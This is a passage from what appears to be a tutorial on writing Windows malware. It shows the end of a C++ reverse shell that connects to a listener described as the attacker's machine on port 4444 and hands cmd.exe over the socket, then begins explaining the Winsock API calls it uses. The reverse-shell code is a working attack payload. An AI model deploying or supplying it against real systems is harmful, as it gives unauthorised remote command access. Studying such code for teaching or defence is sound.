 ```cpp
  // listener ip, port on attacker's machine
  char *ip = "127.0.0.1";
  short port = 4444;

  // init socket lib
  WSAStartup(MAKEWORD(2, 2), &wsaData);

  // create socket
  wSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  hax.sin_family = AF_INET;
  hax.sin_port = htons(port);
  hax.sin_addr.s_addr = inet_addr(ip);

  // connect to remote host
  WSAConnect(wSock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

  memset(&sui, 0, sizeof(sui));
  sui.cb = sizeof(sui);
  sui.dwFlags = STARTF_USESTDHANDLES;
  sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) wSock;

  // start cmd.exe with redirected streams
  CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
  exit(0);
}

```

Let's go to examine first lines:   
![winsock](/assets/images/5/2021-09-15_11-23.png){:class="img-responsive"}

And we use the Winsock API by including the Winsock 2 header files.   
And by [MSDN documentation](https://docs.microsoft.com/en-us/windows/win32/winsock/creating-a-basic-winsock-application) minimal winsock application is:
```cpp
#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdio.h>

#pragma comment(lib, "Ws2_32.lib")

int main() {
  return 0;
}
```

and then the `WSAStartup` function initiates use of the Winsock DLL by a process:
![winsock init](/assets/images/5/2021-09-15_11-55.png){:class="img-responsive"}
